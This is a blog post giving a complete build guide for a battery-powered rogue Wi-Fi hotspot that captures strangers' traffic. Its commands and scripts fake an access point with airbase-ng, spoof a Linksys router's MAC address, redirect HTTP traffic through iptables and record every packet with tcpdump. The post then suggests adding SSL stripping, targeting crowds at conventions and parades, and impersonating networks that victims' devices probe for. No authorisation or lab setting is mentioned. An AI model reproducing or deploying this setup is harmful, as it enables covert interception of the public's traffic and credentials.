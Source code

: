 ```yaml
---
layout: splash
title: "Mobile Hacking"
date: 2012-05-16 00:00:00 -0700
categories: Blog Misc
permalink: /:title.html
---
```

<br />
I have always loved wireless security.  It is just such an easy target.  The only issue that I have had is that I was restricted to carrying around a laptop and I just didn’t like the idea of having to operate the software while I was out.  So I came up with this neat little COMPLETELY mobile wireless hacking/trap solution.  Here is what you will need.

## Equipment

1. an Alix board, CF, and enclosure
2. two ALPHA USB Wireless cards
3. a cell phone that you can tether to
4. mobile power solution

## NOTES

I have written this very quickly and this may not be entirely accurate.  Although the tests that I have done did work this post has been put together using loose notes that I made through my testing.  I may (one day) return to this and tidy it up and add more detail, however I set out to do what I wanted and I wish to move on to newer projects.

## Instructions
1.     To start build your Alix system.  I built mine with Debian and I found a GREAT tutorial on how to get it loaded on a CF for your Alix board here -> http://www.youtube.com/watch?v=6VPsgR4pMik  Install the most basic packages to to run the system, we will add the other stuff later.
2.     Once you have Debian installed on the CF and the board put together go ahead and start  it up.  Connect to the Alix board with a serial connection using 38400 baud, or 9600 if you didn’t change it in the last step.
3.     Log in to Debian using root and your password
4.     rm -f /etc/udev/rules.d/*_persistent-net.rules
5.     rm -f /etc/udev/rules.d/*_persistent-net-generator.rules
6.     reboot and connect the two USB WLAN cards
7.     Once the system is back up and running log in again with root
8.     install the following packages using the next command
9.     apt-get install wpasupplicant bridge-utils wireless-tools tcpdump ssh
10.    change the file /etc/network/interfaces to look like this (obviously use your wlan interfaces)
```
# Used by ifup(8) and ifdown(8). See the interfaces(5) manpage or
# /usr/share/doc/ifupdown/examples for more information.
auto lo
iface lo inet loopback
allow-hotplug eth0
iface eth0 inet dhcp
iface wlan1 inet dhcp
wpa-ssid "iPhone"
wpa-mode managed
wpa-conf /root/Rogue-Sniff/conf/iphone.conf
wpa-psk nodule5958
```
11.    Now we will need to install a bunch more stuff to get the necessary tools running
12.    apt-get install apt-get install build-essential libssl-dev subversion check install iw
13.    svn co http://trac.aircrack-ng.org/svn/trunk aircrack-ng
14.    Make, check install, and then run airodump-ng-oui-update
15.    Time to get the FakeAP up and running
16.    apt-get install dhcp3-server
17.    update-rc.d sic-dhcp-server remove
18.    cp /etc/dhcp/dhcpd.conf /etc/dhcp/dhcpd.conf.bak
19.    vi /etc/dhcp/dhcpd.conf and make it similar to this
```
ddns-update-style ad-hoc;
default-lease-time 600;
max-lease-time 7200;
subnet 10.1.2.0 netmask 255.255.255.0 {
option subnet-mask 255.255.255.0;
option broadcast-address 10.1.2.255;
option routers 10.1.2.1;
option domain-name-servers 8.8.8.8;
range 10.1.2.100 10.1.2.150;
}
```
20.    airmon-ng start wlan0
21.    airbase-ng -e “ESSID” -c 9 mon0
22.    ifconfig at0 up
23.    ifconfig at0 10.1.2.1 netmask 255.255.255.0
24.    route add -net 10.1.2.0 netmask 255.255.255.0 gw 10.1.2.1
25.    dhcpd -cf /etc/dhcpd/dhcpd.conf -pf /var/run/dhcpd.pid at0
26.    Now you have an AP up and running for the sniffing but you know no one will use it unless you have it providing internet access
27.    Connect the Debian box to your cell phone (tethering) so that you can provide internet access to others on the go
28.    Create the file iPhone.conf and put the WPA/WPA2 settings in to tether to your phone
```
network={
ssid="iPhone"
key_mgmt=WPA-PSK
psk=(put your hex in here -> wpa_passphrase [SSID] [passphrase])
}
```
29.    Test out the connection by running the following
30.    wpa_supplicant -i wlan1 -B -c iphone.conf
31.    Get IP Tables running by creating the following script
```
#!/bin/sh
PATH=/usr/sbin:/sbin:/bin:/usr/bin
#
# delete all existing rules.
#
iptables -F
iptables -t nat -F
iptables -t mangle -F
iptables -X
# Always accept loopback traffic
iptables -A INPUT -i lo -j ACCEPT
# Allow established connections, and those not coming from the outside
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -m state --state NEW -j ACCEPT
iptables -A FORWARD -i wlan1 -o at0 -m state --state ESTABLISHED,RELATED -j ACCEPT
# Allow outgoing connections from the LAN side.
iptables -A FORWARD -i at0 -o wlan1 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp -i at0 --destination-port 80 -j REDIRECT --to-port 8080
# Masquerade.
iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
# Don't forward from the outside to the inside.
iptables -A FORWARD -i wlan1 -o wlan1 -j REJECT
# Enable routing.
echo 1 > /proc/sys/net/ipv4/ip_forward
```
32.    If that is all working for you create a bash script with the following (with values that will work for your network)
```
#! /bin/bash
# bring up the rogue and start sniffing
cd /
# change the mac to a Linksys AP
/usr/bin/macchanger --mac=00:06:25:3E:BD:93 wlan0
/usr/bin/macchanger -r wlan1
echo "connecting to phone"
/sbin/wpa_supplicant -i wlan1 -B -c /root/iphone.conf
sleep 45
echo "getting ip address"
/sbin/dhclient wlan1
/usr/local/sbin/airbase-ng --essid hotspot -c 11 wlan0 &
sleep 15
/sbin/ifconfig at0 10.1.1.2 netmask 255.255.255.0
/sbin/route add -net 10.1.1.0 netmask 255.255.255.0 gw 10.1.1.2
/sbin/ifconfig at0 up
sleep 5
/usr/sbin/dhcpd -cf /etc/dhcp/dhcpd.conf
./root/Rogue-Sniff/iptables.sh
tcpdump -i wlan1 -s 0 -e -vv -XX link[25] != 0x80 -w /root/Rogue-Sniff/capture
```
33.    Add a line to execute this script at startup with rc.local
34.    Now that your CF card is at a point where you want it pull it off the Alix board and DD it to another Linux box so that you will never have to go through all this again.
35.    Connect your portable power source and out the door you go!  I used two 9V batteries that do power the setup, but I highly doubt that it would last long.

## Going Further

1.     When acting as an AP for people the main point here is to sniff traffic and record it.  What point would it be to record encrypted traffic?  Go a little further with this and throw SSL Strip into the mix!
2.     Very Useful Applications (if you have room on the CF)
  * python
  * python-twisted-web
  * kismet
  * nmap
  * telnet
  * fping
  * smbclient
  * curl
  * links
  * dnsutils
  * Tenable Nessus
  * Metasploit Framework
3.     The best places to take advantage of wireless networks is in highly populated areas that do not have hotspots.  Think of a convention or parade.  Some people really what to get on the net, and you could even highjack their broadcasts … say they are probing for “linksys” why not rename your SSID?

## Images of My Project
![alt text](/assets/images/mobile/1.png "1")

![alt text](/assets/images/mobile/2.png "2")

![alt text](/assets/images/mobile/3.png "3")

![alt text](/assets/images/mobile/4.png "4")